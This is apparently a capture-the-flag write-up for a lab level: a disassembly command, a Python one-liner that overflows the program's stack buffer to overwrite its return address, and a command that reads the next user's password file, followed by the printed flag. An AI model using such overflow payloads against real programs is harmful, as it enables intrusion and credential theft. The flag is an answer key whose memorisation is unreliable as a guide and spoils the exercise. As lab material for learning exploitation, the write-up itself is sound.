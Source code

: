 # level1

## disassemble

```shell
objdump -dC -M intel level1
```

## exploit

```shell
python2.7 -c 'print("B"*76 + "\x44\x84\x04\x08")' > /tmp/exploit.txt
cat /tmp/exploit.txt /dev/stdin | ./level1
```

## flag

```shell
cat /home/user/level2/.pass
53a4a712787f40ec66c3c26c1f4b164dcad5552b038bb0addd69bf5bf6fa8e77
```
